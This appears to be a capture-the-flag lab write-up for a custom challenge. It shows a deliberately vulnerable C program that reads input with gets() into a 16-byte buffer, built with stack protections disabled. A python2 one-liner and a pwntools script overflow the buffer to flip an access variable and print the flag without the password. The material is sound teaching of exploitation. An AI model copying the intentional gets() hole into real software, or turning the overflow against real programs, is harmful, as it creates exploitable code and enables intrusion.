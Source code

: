 ```yaml
---
description: 08/15/2023
---
```


# 1⃣ 01

This is an entirely custom project that I am extremely proud of. It consists of us overwriting variables on the stack in order to bypass compares so that you can grab the flag without even having the right password.

> Can you find the password?
>
> How can you get the flag without using the correct password?

## Static Source Code Analysis

```c
#include <stdio.h>
#include <string.h>

const char* hacked()
{
    const char* local_flag = {"XYC{H0wD1d1G3tH3r3?!}"};

    printf("This is a secret function.\n");
    printf("Access level 0 is required. All attempts to access will be logged.\n");
    printf("Oh yeah, here's your flag: %s\n", local_flag);

    return local_flag;

}

char * flag = "XYC{H0wD1d1G3tH3r3?!}";

int main()
{

    char code[16];
    int access = 0;

    printf("Please enter the secret code: \n");
    gets(code);
    fflush(stdout);

    if(strcmp(code, "1337") == 0)
    {
        flag = hacked();

        access = 1;
    }

    else
    {
        printf("Access denied, silent alarm has been triggered!\n");
    }

    if(access)
    {
        printf("Authentication successful as root (access level=%d) \n", access);
        printf("You are root, granting access... \nAccess granted, welcome root.\n");
        printf("Wow, you realized we could overflow the buffer and you could still get the flag? Nice.\nHere's your flag: %s", flag);
    }

    else
    {
        printf("Authentication failed as root (access level=%d)\n", access);
    }

    return 0;

}
```

Compile:

```
gcc 01.c -o 01 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that we have a `hacked()` function which contains our flag. Notice the return of `local_flag`.

We can also see that our flag is being set as a global so it can be accessed through main and passed throughout the program.&#x20;

Also, be conscious of the dangerous `gets()` call again, as we remember why this is dangerous from our last example in [00](00.md).&#x20;

Our `strcmp()` is being compared to our input to our buffer (`code`) which is of **16-bytes** and is looking for the correct input of "**1337**" so that we can access our secret function.

If we can input the password correctly, we will be granted access to the secret function.&#x20;

If not, we will trigger the alarm.

## Exploitation

### Manual Method

python2:

```
python2 -c 'print "A" * 17' > payload
```

Exploit:

```
./01 < payload
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Establish the connection to the program
p = process('./01')  # Change this to the actual path of the '01' program

context.log_level = 'debug'

# Wait for the ':' prompt
p.recvuntil(':')

# Send 17 bytes of 'A' characters
payload = b'A' * 17
p.sendline(payload)

# Print the program's output
print(p.recvall().decode())

# Close the connection
p.close()
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## `gdb`

We can see our payload of A's overwriting our variables on the stack so we can bypass the comparisons/checks and get straight into the right version of our `hacked()` function that we want.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We never inputed the correct password of "1337":

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
